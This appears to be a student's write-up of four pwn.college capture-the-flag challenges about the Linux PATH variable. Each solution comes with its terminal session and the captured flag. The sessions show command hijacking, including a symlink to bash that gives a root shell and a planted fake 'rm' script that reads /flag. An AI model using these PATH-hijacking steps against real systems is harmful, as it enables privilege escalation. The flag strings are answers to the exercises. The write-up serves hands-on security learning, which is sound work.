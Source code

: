 **Pondering Path**

***1.The PATH variable***

In this challenge, there is a special shell variable, called PATH, that stores a bunch of directory paths in which the shell will search for programs corresponding to commands. On executing ```PATH=""``` command, we denote nothing to PATH which deletes the flag using rm command. Following this, we can run the command ```/challenge/run``` to get the flag. 

```
Connected!
hacker@path~the-path-variable:~$ PATH=""
hacker@path~the-path-variable:~$ /challenge/run
Trying to remove /flag...
/challenge/run: line 4: rm: No such file or directory
The flag is still there! I might as well give it to you!
pwn.college{Q0suH2tz-g0W3BcjEG1HQfrFUMk.dZzNwUDLwQDO0czW}
```

***2.Setting Path***

In this challenge, we first had to overwrite ```/challenge/more_commands/``` in the PATH. Then on running ```/challenge/run``` win was invoked which caught the flag.

```
Connected!
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
/challenge/run: line 4: win: command not found
It looks like that did not work... Did you set PATH correctly?
hacker@path~setting-path:~$ PATH=/challenge/more_commands/
hacker@path~setting-path:~$ /challenge/run
Invoking 'win'....
Congratulations! You properly set the flag and 'win' has launched!
pwn.college{cAJnwYBMN_6o--7eFELlwfwJjy8.dVzNyUDLwQDO0czW}
```

***3.Adding Commands***

As we have learned the echo command in Linux is a built-in command that allows users to display lines of text or strings that are passed as arguments. It is commonly used in shell scripts and batch files to output status text to the screen or a file. In this challenge, we had to overwrite PATH with the directory having win. On doing that, when ```/challenge/run``` command is executed win is invoked. Then we used the echo command on PATH. Further, I created an empty file called win. Then on running ```cat /flag```, I got the flag.

```
Connected!
hacker@path~adding-commands:~$ echo $PATH
/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~adding-commands:~$ ln -s /usr/bin/bash ./win
hacker@path~adding-commands:~$ PATH=/home/hacker:$PATH
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
root@path~adding-commands:~# echo $PATH
/home/hacker:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
root@path~adding-commands:~# touch win
root@path~adding-commands:~# cat /flag
pwn.college{00-uQ0LjDyL28VFunAAJmvsKasY.dZzNyUDLwQDO0czW}
```

***4.Hijacking Commands***

In this challenge, the flag will be deleted using the rm command so I created an empty file named rm, which will be invoked instead of the flag. I stored ```cat /flag``` in the rm file. I further, changed the permissions of the file to give executive access to everyone. This way when I ran the command ```/challenge/run```, I got the flag.

```
Connected!
hacker@path~hijacking-commands:~$ touch rm
hacker@path~hijacking-commands:~$ echo 'cat /flag'>rm
hacker@path~hijacking-commands:~$ PATH="/home/hacker:$PATH"
hacker@path~hijacking-commands:~$ chmod a+x rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{sSx13YbrNXaInGgkr8K9gtURFT5.ddzNyUDLwQDO0czW}
```
